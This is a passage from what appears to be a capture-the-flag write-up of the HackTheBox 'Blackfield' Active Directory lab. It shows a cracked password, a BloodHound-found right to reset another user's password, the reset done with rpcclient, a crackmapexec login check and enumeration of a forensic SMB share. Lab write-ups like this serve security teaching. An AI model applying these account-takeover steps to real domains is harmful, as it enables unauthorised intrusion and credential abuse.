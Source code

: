 ``` The password for 'support' was found to be '#00^BlackKnight' when cracked with rockyou```
## Exploitation

Loaded up Bloodhound to see if I could find any wins and it looks like the support user can change Audit2020's password
![](https://github.com/deannreid/CTF-Writeups/blob/main/HackTheBox/Retired/Hard/Blackfield/images/Pasted%20image%2020240518205925.png?raw=true)

I done a quick google search for changing passwords and came across this website
[Reset AD user password with Linux - Malicious Link - Blog by mubix - Rob Fuller](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/)

So I then logged in with the Support User - Changed the Audit accounts password
```
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ rpcclient -U blackfield.local/support -I 10.129.229.17 dc01.blackfield.local

Password for [BLACKFIELD.LOCAL\support]:
rpcclient $> setuserinfo2 audit2020 23 ILov3Ch3323!
```
and then I could access this account
```
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ crackmapexec smb blackfield.local -u audit2020 -p 'ILov3Ch3323!'                           
SMB         BLACKFIELD.local 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         BLACKFIELD.local 445    DC01             [+] BLACKFIELD.local\audit2020:ILov3Ch3323! 
```

Connected back to SMB with the new user and found a few extra files
```
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ smbclient -U audit2020 //blackfield.local/forensic
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb 23 13:03:16 2020
  ..                                  D        0  Sun Feb 23 13:03:16 2020
  commands_output                     D        0  Sun Feb 23 18:14:37 2020
  memory_analysis                     D        0  Thu May 28 21:28:33 2020
  tools                               D        0  Sun Feb 23 13:39:08 2020

                5102079 blocks of size 4096. 1694212 blocks available
smb: \> ls tools\
  .                                   D        0  Sun Feb 23 13:39:08 2020
  ..                                  D        0  Sun Feb 23 13:39:08 2020
  sleuthkit-4.8.0-win32               D        0  Sun Feb 23 13:39:03 2020
  sysinternals                        D        0  Sun Feb 23 13:35:25 2020
  volatility                          D        0  Sun Feb 23 13:35:39 2020

                5102079 blocks of size 4096. 1694192 blocks available
smb: \> ls commands_output\
  .                                   D        0  Sun Feb 23 18:14:37 2020
  ..                                  D        0  Sun Feb 23 18:14:37 2020
  domain_admins.txt                   A      528  Sun Feb 23 13:00:19 2020
  domain_groups.txt                   A      962  Sun Feb 23 12:51:52 2020
  domain_users.txt                    A    16454  Fri Feb 28 22:32:17 2020
  firewall_rules.txt                  A   518202  Sun Feb 23 12:53:58 2020
  ipconfig.txt                        A     1782  Sun Feb 23 12:50:28 2020
  netstat.txt                         A     3842  Sun Feb 23 12:51:01 2020
  route.txt                           A     3976  Sun Feb 23 12:53:01 2020
  systeminfo.txt                      A     4550  Sun Feb 23 12:56:59 2020
  tasklist.txt                        A     9990  Sun Feb 23 12:54:29 2020
